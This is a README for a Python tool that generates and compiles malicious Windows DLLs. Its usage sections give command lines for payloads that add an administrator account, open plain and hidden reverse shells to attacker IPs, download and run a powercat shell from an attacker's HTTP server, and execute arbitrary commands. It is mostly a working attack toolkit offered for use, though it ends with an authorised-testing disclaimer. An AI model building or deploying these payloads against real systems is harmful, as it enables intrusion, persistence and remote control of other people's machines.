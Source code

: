 # DLL Shell Creator

## Introduction

The DLL Shell Creator is a Python tool designed to automate the generation of C++ code for dynamic-link libraries (DLLs) that contain various payloads. This tool can be used to generate DLLs for creating reverse shells, adding users, executing custom commands, and more. Additionally, the script provides an option to compile the generated C++ code directly into a DLL using `mingw-w64`.

## Setting Up the Development Environment

### Tools Required:

- **Python 3.x**: Required to run the script.
- **MinGW-w64**: A cross-compiler for Windows, used to compile the generated C++ code into a DLL.
- **Python Libraries**: The script requires `argparse` and `termcolor` libraries.
- **PowerCat.ps1:** Required for powercat based reverse shell

### Installing Python Dependencies

Install the necessary Python dependencies using pip:

```bash
pip install argparse termcolor
```

### Installing MinGW-w64

#### Ubuntu/Debian:

```bash
sudo apt-get install mingw-w64
```

#### Arch Linux:

```bash
sudo pacman -S mingw-w64-gcc
```

#### Windows:

You can download and install `mingw-w64` from [Mingw-w64 SourceForge](https://sourceforge.net/projects/mingw-w64/).

## Usage

### General Command Syntax

To use the DLL Shell Creator, execute the following command:

```bash
python3 dll-shell-creator.py --type <payload_type> [options]
```

### Available Payload Types

#### Add a User to the System

This payload generates a DLL that adds a new user to the system and assigns the user to the administrators group.

   **Command:**
```bash
python3 dll-shell-creator.py --type add_user --username <username> --password <password> --output AddUserDLL
```

   **Example:**
```bash
python3 dll-shell-creator.py --type add_user --username admin --password pass123 --output AddUserDLL
```

#### Generate a Reverse Shell DLL

This payload generates a DLL that initiates a reverse shell to a specified IP address and port.

   **Command:**
```bash
python3 dll-shell-creator.py --type reverse_shell --ip <target_ip> --port <target_port> --output ReverseShellDLL
```

   **Example:**
```bash
python3 dll-shell-creator.py --type reverse_shell --ip 192.168.1.10 --port 4444 --output ReverseShellDLL
   ```

#### Generate a Stealth Reverse Shell DLL

This payload generates a DLL that initiates a hidden reverse shell to a specified IP address and port.

   **Command:**
```bash
python3 dll-shell-creator.py --type stealth_reverse_shell --ip <target_ip> --port <target_port> --output StealthShellDLL
   ```

   **Example:**
```bash
python3 dll-shell-creator.py --type stealth_reverse_shell --ip 192.168.1.10 --port 4444 --output StealthShellDLL
   ```

#### Generate a Powercat-based Reverse Shell DLL

This payload generates a DLL that downloads and executes a Powercat-based reverse shell. Ensure `powercat.ps1` is in the same directory and start an HTTP server to serve the file.

   **Setup:**
```bash
git clone https://github.com/besimorhino/powercat
```

```bash
python3 -m http.server 80
```

   **Command:**
```bash
python3 dll-shell-creator.py --type powercat --ip <target_ip> --port <target_port> --output PowercatShellDLL
```

   **Example:**
```bash
python3 dll-shell-creator.py --type powercat --ip 192.168.119.3 --port 4444 --output PowercatShellDLL
```

#### Execute a Custom Command

   This payload generates a DLL that executes a specified command on the target system.

   **Command:**
```bash
python3 dll-shell-creator.py --type execute_command --command '<your_command>' --output CustomCommandDLL
```

   **Example:**
```bash
python3 dll-shell-creator.py --type execute_command --command 'c:\\users\\public\\downloads\\myfile.exe -t s4u -p cmd.exe -a \\"/c start cmd.exe\\"' --output CustomCommandDLL
```

### Compilation Option

To compile the generated C++ code into a DLL immediately, use the `--compile` flag. If the compilation is successful, the source `.cpp` file will be deleted automatically.

**Example:**
```bash
python3 dll-shell-creator.py --type reverse_shell --ip 192.168.1.10 --port 4444 --output ReverseShellDLL --compile
```

## License

This tool is intended for educational and testing purposes only. Use it responsibly and only on systems you own or have explicit permission to test.

